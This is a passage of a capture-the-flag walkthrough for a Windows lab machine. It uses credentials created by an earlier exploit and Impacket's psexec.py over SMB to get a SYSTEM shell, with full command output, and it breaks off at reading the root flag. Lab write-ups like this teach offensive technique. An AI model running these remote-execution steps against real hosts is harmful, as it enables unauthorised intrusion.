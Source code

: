 ```bash

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

It worked, once finished it show us the credentials of the new user, now we have to found a way to use them to log in to the machine.

## Getting a Shell via SMB

So, since SMB is active we can use `psexec.py` to use the valid credentials and get a shell.

For the ones who don't know what `psexec.py` is:

>`psexec.py` is a Python script from the Impacket toolkit that allows remote code execution on Windows systems via SMB, emulating PsExec functionality. It works by creating a service on the target machine using valid SMB credentials, running the specified command, and then removing the service after execution.

Let's copy `psexec.py` to our current directory.

```bash
cp /usr/share/doc/python3-impacket/examples/psexec.py .
```

The use is fairly easy, pretty similar to `ssh`, just provide the user and the IP address and then provide the password.

```bash
❯ python psexec.py pentest@10.10.10.152
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file jDZWWcWT.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service zzDX on 10.10.10.152.....
[*] Starting service zzDX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```



---
## Shell as System

Once inside we are currently `nt authority\system` so no privilege escalation needed.

The flag is located in `C:\Users\Administrator\Desktop/root.txt`


```bash
C:\Users\Administrator\Desktop> dir 
 Volume in drive C has no label.
 Volume Serial Number is 0EF5-E5E5

 Directory of C:\Users\Administrator\Desktop

02/02/2019  11:35 PM    <DIR>          .
02/02/2019  11:35 PM    <DIR>          ..
12/14/2024  07:29 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,743,265,280 bytes free

C:\Users\Administrator\Desktop> type root.txt
```
